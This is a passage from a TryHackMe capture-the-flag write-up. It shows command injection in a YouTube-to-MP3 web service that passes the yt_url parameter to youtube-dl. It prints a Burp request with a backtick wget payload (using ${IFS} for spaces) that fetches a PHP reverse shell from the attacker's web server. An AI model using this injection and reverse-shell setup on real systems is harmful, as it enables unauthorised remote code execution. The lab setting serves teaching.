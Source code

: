 We can see that the youtube ID (user input) is concatenated to `https://www.youtube.com/watch?v=` to get the full Youtube URL of the requested video. The resulting string is saved to `yt_url` and passed to the main page in JSON. The result is logged in the console (`Ctrl+I` to fire up the web developer bar), and a message will be displayed in the `message` div.

As the server has no access to the Internet (this is common for all THM servers) for obvious reasons, the script (web service for which we don't know the source code) will ultimately fail after timeout.

After reaching the timeout, our assumption is confirmed and the console has logged the following JSON response:

~~~
Object { status: 1, errors: "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Unable to download webpage: <urlopen error [Errno 101] Network is unreachable> (caused by URLError(error(101, 'Network is unreachable'),))\n", url_orginal: "https://www.youtube.com/watch?v=AUYiV7Pygd4", output: "[youtube] AUYiV7Pygd4: Downloading webpage\n", result_url: "/tmp/downloads/5ee77f99d13c2.mp3" 
~~~

Based on this analysis, let's try to inject some commands in the `yt_url` parameter using BurpSuite Repeater (`${IFS}` is used for spaces):

!["inject-web-service.png"](files/inject-web-service.png)

*Interestingly, searching for parameters reported in the error message leads to https://github.com/ytdl-org/youtube-dl, which seems to be the service installed on the server.*

Now, let's use this to inject a reverse shell. First download a [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz), rename it `shell.php` and change the IP and port. Make it available through a python web server (`python3 -m http.server`). Now, inject it (below is the requets in BurpSuite Repeater):

~~~
POST / HTTP/1.1
Host: 10.10.161.26
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://10.10.161.26
DNT: 1
Connection: close
Referer: http://10.10.161.26/

yt_url=`wget${IFS}http://10.8.50.72:8000/shell.php`
~~~
